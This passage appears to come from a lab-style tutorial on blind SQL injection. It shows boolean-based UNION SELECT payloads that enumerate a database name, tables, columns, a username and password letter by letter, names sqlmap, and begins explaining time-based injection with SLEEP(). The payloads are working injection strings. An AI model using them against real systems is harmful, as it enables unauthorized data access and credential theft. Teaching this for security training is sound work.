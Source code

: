 ```sql	
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```json
{"taken":true}
```
Okay, so we got the first letter of the database name. Now we can try to find the second letter by following the same method.

We could say that the database name was `sqli_three`.

To find the tables, we have to use the same process as before..
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

And try different letters until we find a table that returns true.

We can say the table name was `users`.

Alright now we have the table name, we can try to find the columns by doing what? :). Exactly, the same process as before.

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

We can imagine we got the columns `id`, `username` and `password` from doing that.

We have to find a user we can check the password for. We can again do this by manually trying different usernames until we find one that returns true.

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%
```

We can say the username was `admin`.

Now we can try to find the password for the user we found.

```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like '1%
```

We can say the password was `3845`.

All in all, this process took a lot of time and effort. Luckily, there are tools that can automate this process for us. One of the most popular tools for this is `sqlmap`.

# Blind SQL Injection - Time Based
## Time-Based
A time-based blind SQL Injection is very similar to the above Boolean based, in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced by using built-in methods such as SLEEP(x) alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement. 
